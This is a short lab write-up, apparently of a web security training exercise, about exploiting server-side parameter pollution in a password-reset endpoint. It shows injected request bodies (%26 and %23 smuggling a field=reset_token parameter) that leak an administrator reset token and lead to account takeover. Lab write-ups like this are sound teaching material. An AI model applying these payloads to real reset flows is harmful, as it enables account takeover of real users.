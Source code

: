 # Exploiting server-side parameter pollution in a query string
First enumerate website to discover 2 API endpoints: ```/login /forgot-password```
Try to inject # in both, to get an error - we can see that ```/forgot-password``` gives an error once %23 is injected in body params like this:
```
csrf=IaRVBoi2eveydFyZrhKV0Zk2jukjlA8D&username=administrator%26

{"error": "Field not specified."}
```
Adding field parameter seems to change the output application
```
csrf=jc2oxIEzr20v1a3YSb2etjKVENEiJ3aA&username=administrator%26field=a%23
{"type":"ClientError","code":400,"error":"Invalid field."}
```
Trying a few field types shows that password is not one of them. I wrote my [own tool](https://github.com/theballmarcus/theballmarcus-payloads/blob/main/tools/burp_to_wfuzz) to bruteforce different parameters using wfuzz:

It doesn't yield anything important.
However taking a look at ```/static/js/forgetPassword.js``` shows that reset_token might be a valid param.
Sending `field=reset_token` yields `o847h68g7t9nb1vnaxx6k0kw6cdtuxmg`

Going to ```/forgot-password?reset_token=o847h68g7t9nb1vnaxx6k0kw6cdtuxmg``` in browser allows us to change the administrator password

Then we can login and delete carlos to win.
